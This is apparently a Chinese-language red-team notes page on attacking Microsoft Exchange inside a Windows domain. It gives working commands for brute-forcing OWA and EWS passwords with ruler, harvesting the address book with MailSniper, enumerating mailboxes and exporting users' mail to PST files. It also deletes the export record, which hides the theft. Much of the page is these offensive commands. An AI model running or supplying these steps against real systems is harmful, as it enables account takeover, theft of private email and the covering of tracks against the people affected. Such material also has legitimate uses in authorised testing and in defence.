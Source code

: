## Exchange

exchange一般都在域内的核心位置上，包括甚至安装在域控服务器上，因此需要exchange的相关漏洞，如果拿下exchange机器，则域控也不远了。

### 邮箱用户密码爆破

使用ruler工具对owa接口进行爆破：

```
./ruler --domain targetdomain.com brute --users /path/to/user.txt --passwords /path/to/passwords.txt
```

ruler工具会自动搜索owa可以爆破的接口，如：

https://autodiscover.targetdomain.com/autodiscover/autodiscover.xml

其他如ews接口也存在被暴力破解利用的风险：

https://mail.targetdomain.com/ews

### 通讯录收集

在获取一个邮箱账号密码后，可以使用MailSniper收集通讯录，当拿到通讯录后，可以再次利用上述爆破手段继续尝试弱密码，但是记住，密码次数不要太多，很有可能会造成域用户锁定：

```
Get-GlobalAddressList -ExchHostname mail.domain.com -UserName domain\username -Password Fall2016 -OutFile global-address-list.txt
```

### 信息收集

当我们拿下exchange服务器后，可以做一些信息收集，包括不限于用户、邮件。

获取所有邮箱用户：

```
Get-Mailbox
```

导出邮件：

```
New-MailboxexportRequest -mailbox username -FilePath ("\\localhost\c$\test\username.pst")
```

也可以通过web口导出，登录：

https://mail.domain.com/ecp/

导出后会有记录，用如下命令可以查看：

```
Get-MailboxExportRequest
```

删除某个导出记录：

```
Remove-MailboxExportRequest -Identity 'username\mailboxexport' -Confirm:$false
```



## Seatbelt

## Bloodhound

可以了解，都不推荐使用
